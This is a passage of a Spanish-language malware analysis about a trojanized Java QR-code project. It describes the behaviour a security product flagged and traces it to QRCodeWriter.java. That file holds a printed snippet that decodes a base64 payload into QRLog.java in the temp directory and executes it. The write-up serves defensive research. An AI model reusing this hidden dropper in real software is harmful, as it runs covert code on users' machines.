 Al momento de escribir esta investigación no existen menciones públicas a este malware o a sus componentes, como tampoco detecciones por parte de software antivirus o plataformas de seguridad, lo que nos indica estar ante una muestra novel [[1]](#referencias). Sin embargo algunas plataformas de inteligencia como  CMC (Vietnam) han marcado el enlace original al archivo como sospechoso [[1]](#referencias), y en otras es posible encontrar menciones a parte de su infraestructura C2 (asociada a Cobalt Strike y cuya reutilización es común)[[2][3]](#referencias).

<a name="comportamiento"></a>
## Comportamiento

El proyecto es funcional y no presenta en primera instancia rasgos sospechosos. Sin embargo, un análisis de comportamiento en tiempo de ejecución llevado a cabo por Crowdstrike Falcon detectó - y bloqueó - una serie de acciones potencialmente maliciosas:
- La lectura de la configuración de red mediante el comando `ifconfig`
- El envío de una única solicitud ICMP `ping` a un servidor externo
- La creación de directorios temporales con una serie de números aleatorios en su nombre
- La escritura de un archivo `.java` en el directorio temporal (QRLog.java) y su posterior ejecución
- La escritura de otros archivos con extensiones `.java` y `.dat` en dichos directorios temporales (prefTmp.java, p.dat) y su posterior ejecución
- El borrado de dichos archivos

Ante la inexistencia de material sobre este malware se decidió proceder a un análisis manual. En primera instancia la búsqueda de cadenas de texto que referencien los nombres de los archivos creados arrojó resultados positivos:

```bash
#Buscar "qrlog" en referencia al archivo QRLog.java, primer archivo escrito en las carpetas temporales
> grep -rnwi "qrlog"

[...]/google/zxing/qrcode/QRCodeWriter.java:87:errPath = System.getProperty("java.io.tmpdir")+ "\\QRLog.java";
[...]/google/zxing/qrcode/QRCodeWriter.java:89:errPath = System.getProperty("java.io.tmpdir")+ "/QRLog.java";
```
El archivo `QRCodeWriter.java` es quien crea originalmente el archivo `QRLog.java` y es un buen candidato para comenzar la investigación.
Teniendo una referencia sólida fue posible comenzar el análisis del código Java.

<a name="analisis"></a>
## Análisis de código fuente

Al analizar el archivo `QRCodeWriter.java` (disponible para descargar individualmente en la sección [Muestras](#muestras)) llama inmediatamente la atención la siguiente función:

```java
try{
        String os = System.getProperty("os.name");
        String errPath;
        
        if (os.contains("Windows"))
            errPath = System.getProperty("java.io.tmpdir")+ "\\QRLog.java";
        else
            errPath = System.getProperty("java.io.tmpdir")+ "/QRLog.java";
        FileOutputStream qrW = new FileOutputStream(errPath);
        qrW.write(b64dec);
        Runtime.getRuntime().exec("java " + errPath);
    }
    catch (IOException ex){   
    }
```
